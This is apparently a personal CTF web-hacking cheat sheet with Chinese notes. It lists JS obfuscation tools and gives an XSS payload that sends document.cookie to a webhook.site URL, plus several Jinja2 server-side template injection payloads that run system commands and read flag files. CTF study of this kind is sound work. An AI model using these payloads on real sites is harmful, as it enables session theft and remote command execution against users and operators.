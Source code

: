 ```yaml
---
title: Web Cheat Sheet
tags: [Tools, CTF, Web]

---
```


# Web Cheat Sheet
## Online Tools
| Fuck                             | Beautifier                       |
| -------------------------------- | -------------------------------- |
| [jsfuck](http://www.jsfuck.com/) | [JSNice](http://www.jsnice.org/) |
|[jjencode](https://utf-8.jp/public/jjencode.html)|[JS 反混淆器](https://beautifier.io/): 可以反混淆或解密JS的檔案|
|[aaencode](https://utf-8.jp/public/aaencode.html)|[JS 壓縮+加密+混淆+美化](https://js.wfuapp.com/)|
|[Esolang List](https://esolangs.org/wiki/Language_list)|[JS Fuck Decode](https://www.53lu.com/tool/jsfuckdecode/)|
||[aadecode](https://cat-in-136.github.io/2010/12/aadecode-decode-encoded-as-aaencode.html)|

## Cheat-Sheet
* [XSS-CheatSheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)
    利用XSS把session打到webhook上: 
    ```javascript?
    window.location=<requestbin.com>/?a+document.cookie
    // or
    fetch("https://webhook.site/699a6563-c9b5-4ad7-adaa-e189c5f78194", { method: 'GET', headers: { 'Cookie': document.cookie } })
    ```
* [All-Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%19Injection/README.md)
* SSTI Payload: 記得找==os.\_wrap_close==
    ```
    {{().__class__.__base__.__subclasses__()[132].__init__.__globals__['system']('id')}}
    {{self.__init__.__globals__.__builtins__.__import__("os").popen("cat%20Flag.txt").read()}}
    {{().__class__.__bases__[0].__subclasses__()[138].__init__.__globals__['execl']("/bin/cat", "cat", "./flag.txt")}}
    {{().__class__.__bases__[0].__subclasses__()[138].__init__.__globals__['popen']("cat /flag.txt")}}
    {{().__class__.__bases__[0].__subclasses__()[138].__init__.__globals__['execl']("/bin/cat", "cat", file.lower())}}
    {{().__class__.__bases__[0].__subclasses__()[138].__init__.__globals__['spawnl']('P_WAIT', "/bin/cat", "cat", file.lower())}}
    ```

## Others
* wasm $\to$ c: [wabt](https://github.com/WebAssembly/wabt)
    ```bash!
    # 按照說明build完後進到./build
    $ ./wasm2c {wasm file path} -o {output c file path}
    ```
* Webhook
    [Webhook.site](https://webhook.site/)
    [Beeceptor](https://beeceptor.com/)
    [Ngrok](https://ngrok.com/)
